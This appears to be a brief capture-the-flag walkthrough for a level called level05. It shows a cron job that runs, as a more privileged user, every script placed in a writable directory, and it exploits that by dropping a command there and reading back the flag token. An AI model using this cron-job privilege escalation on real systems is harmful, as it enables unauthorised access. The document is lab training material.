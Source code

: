 - `cat /var/mail/level05`
```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
- `cat /usr/sbin/openarenaserver`
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
- `echo "getflag > /tmp/lol" > /opt/openarenaserver/run`
- `cat /tmp/lol`
```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
